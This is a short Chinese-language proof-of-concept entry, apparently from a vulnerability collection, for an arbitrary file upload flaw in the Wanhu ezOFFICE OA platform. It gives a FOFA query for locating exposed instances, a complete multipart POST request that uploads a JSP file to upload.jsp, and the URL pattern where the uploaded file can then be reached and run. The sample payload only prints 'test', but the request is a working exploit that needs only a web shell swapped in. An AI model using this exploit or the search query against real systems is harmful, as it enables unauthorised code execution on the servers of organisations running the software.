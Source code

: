 ## 万户OA-upload任意文件上传漏洞

## fofa
```
app="万户ezOFFICE协同管理平台"
```

## poc
```
POST /defaultroot/platform/portal/layout/common/upload.jsp?portletSettingId=123&path=abc HTTP/1.1
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=b0d829daa06c13d6b3e16b0ad21d1eed
 
--b0d829daa06c13d6b3e16b0ad21d1eed
Content-Disposition: form-data; name="file"; filename="1.jsp"
Content-Type: application/octet-stream
 
<%out.print("test");%>
--b0d829daa06c13d6b3e16b0ad21d1eed--
```
![image](../../images/bea8affb-eb50-4ff3-bdad-eb640ee8a662.png)

上传文件地址：`http://your-ip/defaultroot/upload/abc(path参数的值)/202311(现年月)/(返回的文件名).jsp`
